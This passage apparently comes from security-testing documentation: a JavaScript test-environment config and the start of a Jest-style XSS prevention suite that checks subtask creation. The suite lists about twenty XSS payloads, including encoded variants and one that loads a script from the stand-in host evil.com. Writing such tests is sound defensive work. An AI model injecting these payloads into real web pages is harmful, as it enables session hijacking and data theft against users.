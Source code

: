 ```javascript
const SecurityTestEnvironment = {
  isolated: {
    description: "Isolated test environment for security testing",
    network: "segregated",
    data: "synthetic test data",
    logging: "comprehensive",
    monitoring: "real-time"
  },
  
  configuration: {
    validationMode: "strict",
    securityHeaders: "enabled",
    auditLogging: "verbose",
    errorHandling: "detailed",
    rateLimiting: "aggressive"
  },
  
  testData: {
    maliciousPayloads: "comprehensive attack vectors",
    edgeCases: "boundary condition testing",
    performanceData: "load and stress test scenarios",
    complianceData: "regulatory requirement validation"
  }
};
```

---

## 2. Automated Security Testing

### 2.1 Input Validation Security Tests

#### 2.1.1 Cross-Site Scripting (XSS) Prevention

```javascript
describe('XSS Prevention Tests', () => {
  const xssPayloads = [
    '<script>alert("XSS")</script>',
    '"><script>alert(String.fromCharCode(88,83,83))</script>',
    '<img src=x onerror=alert("XSS")>',
    '<svg onload=alert("XSS")>',
    'javascript:alert("XSS")',
    '<iframe src="javascript:alert(`XSS`)"></iframe>',
    '<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4="></object>',
    '<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">',
    '<link rel="stylesheet" href="javascript:alert(`XSS`)">',
    '<input autofocus onfocus=alert("XSS")>',
    '"><img src=x onerror=alert("XSS")>',
    '\';alert("XSS");//',
    '"><script>alert(/XSS/.source)</script>',
    '<script>alert(`XSS`)</script>',
    '<ScRiPt>alert("XSS")</ScRiPt>',
    '<SCRIPT SRC=http://evil.com/xss.js></SCRIPT>',
    '&lt;script&gt;alert("XSS")&lt;/script&gt;',
    '<script>alert("XSS")</script>',
    '&#60;script&#62;alert("XSS")&#60;/script&#62;',
    '%3Cscript%3Ealert(%22XSS%22)%3C/script%3E'
  ];

  test('should sanitize XSS payloads in subtask creation', async () => {
    for (const payload of xssPayloads) {
      const maliciousSubtask = {
        type: 'research',
```